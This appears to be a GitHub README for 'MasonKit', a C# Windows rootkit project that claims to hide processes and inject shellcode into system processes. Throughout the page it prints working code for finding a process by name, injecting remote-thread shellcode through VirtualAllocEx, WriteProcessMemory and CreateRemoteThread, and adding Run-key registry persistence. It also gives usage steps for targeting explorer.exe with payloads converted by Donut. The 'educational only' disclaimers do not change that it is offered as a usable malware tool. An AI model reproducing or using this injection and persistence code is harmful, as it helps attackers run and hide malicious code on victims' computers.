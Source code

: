# MasonKit - Rootkit Project

![MasonKit](https://i.ibb.co/LzP0f7G3/image.png)

## Overview
MasonKit is a **Rootkit** project developed by **ABOLHB** from the **FREEMASONRY** group. The primary purpose of this tool is to **hide a program from the process list** and **inject it into any system file** of your choice. This project is intended for **educational purposes only**, and the creator and contributors are **not responsible** for any misuse or illegal activities performed using this tool.

---

## Disclaimer
This project is shared for **educational and research purposes only**. The creator, contributors, and the FREEMASONRY group are **not responsible** for any illegal or unethical use of this tool. Use it at your own risk, and ensure you have proper authorization before using it in any environment.

---

## Features
1. **Process Hiding**: The Rootkit hides the target process from the system's process list.
2. **Shellcode Injection**: Injects custom shellcode into a specified system process.
3. **Persistence**: Optionally adds the Rootkit to the system's startup registry.
4. **Customizable**: Allows users to specify the target process and shellcode file.

---

## Code Explanation

### 1. **Main Components**
The project is built using **C#** and utilizes the **Windows API** for low-level system operations. Below is a detailed breakdown of the code:

---

### 2. **MasonForm Class**
This is the main form class for the application. It handles user interactions and initiates the Rootkit functionality.

#### Key Methods:
- **`Form1_Load`**: Initializes the form and sets default values for UI elements.
- **`guna2Button1_Click`**: Handles the injection process. It reads the shellcode from a `.bin` file, compiles it into a new executable, and injects it into the target process.
- **`guna2Button2_Click`**: Allows the user to select an executable file, converts it into shellcode using **Donut**, and saves it as `shellcode.bin`.

---

### 3. **Rootkit Functionality**
The Rootkit is implemented in the dynamically generated C# code. Below is a breakdown of its key components:

#### **Constants and Imports**
```csharp
const int PROCESS_ALL_ACCESS = 0x1F0FFF;
const uint MEM_COMMIT = 0x1000;
const uint MEM_RESERVE = 0x2000;
const uint PAGE_EXECUTE_READWRITE = 0x40;
const uint MEM_RELEASE = 0x8000;
```
These constants define memory allocation and process access permissions.

#### **Windows API Functions**
- **`CreateToolhelp32Snapshot`**: Takes a snapshot of the system's processes.
- **`Process32First`** and **`Process32Next`**: Enumerate processes in the snapshot.
- **`OpenProcess`**: Opens a handle to the target process.
- **`VirtualAllocEx`**: Allocates memory in the target process.
- **`WriteProcessMemory`**: Writes shellcode into the allocated memory.
- **`CreateRemoteThread`**: Executes the shellcode in the target process.

#### **Process Enumeration**
```csharp
static uint GetProcessIdByName(string processName)
{
    uint processId = 0;
    IntPtr snapshot = CreateToolhelp32Snapshot(0x2, 0);
    PROCESSENTRY32 processEntry = new PROCESSENTRY32 { dwSize = (uint)Marshal.SizeOf(typeof(PROCESSENTRY32)) };
    if (Process32First(snapshot, ref processEntry))
    {
        do
        {
            if (processName == processEntry.szExeFile)
            {
                processId = processEntry.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, ref processEntry));
    }
    CloseHandle(snapshot);
    return processId;
}
```
This function retrieves the process ID of the target process by name.

#### **Shellcode Injection**
```csharp
IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
IntPtr pRemoteMemory = VirtualAllocEx(hProcess, IntPtr.Zero, shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, shellcode, shellcode.Length, out int bytesWritten);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, pRemoteMemory, IntPtr.Zero, 0, IntPtr.Zero);
```
This code injects the shellcode into the target process and executes it.

#### **Persistence**
```csharp
static void AddToStartup()
{
    string appPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
    using (RegistryKey key = Registry.CurrentUser.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true))
    {
        if (key != null)
        {
            key.SetValue("MyApplication", appPath);
        }
    }
}
```
This method adds the Rootkit to the system's startup registry for persistence.

---

### 4. **Donut Integration**
The project uses **Donut** to convert executable files into shellcode. The shellcode is then injected into the target process.

---

## Usage
1. **Select Target Process**: Enter the name of the target process (e.g., `explorer.exe`).
2. **Load Shellcode**: Use the `Load Shellcode` button to convert an executable into shellcode.
3. **Inject**: Click the `Inject` button to inject the shellcode into the target process.
4. **Persistence**: Enable the `Add to Startup` checkbox to ensure the Rootkit runs on system startup.

---

## Ethical Considerations
- **Authorization**: Always ensure you have proper authorization before using this tool.
- **Legal Compliance**: Misuse of this tool may violate local and international laws.
- **Educational Use**: This project is intended for educational purposes only.

---

## Credits
- **ABOLHB**: Creator of MasonKit.
- **FREEMASONRY Group**: The group behind the project.

---

## Links
- [GitHub Repository](https://github.com/MasonGroup)
- [Discord Server](https://discord.gg/dvXH85CfpN)
- [Instagram](https://www.instagram.com/g7m9)


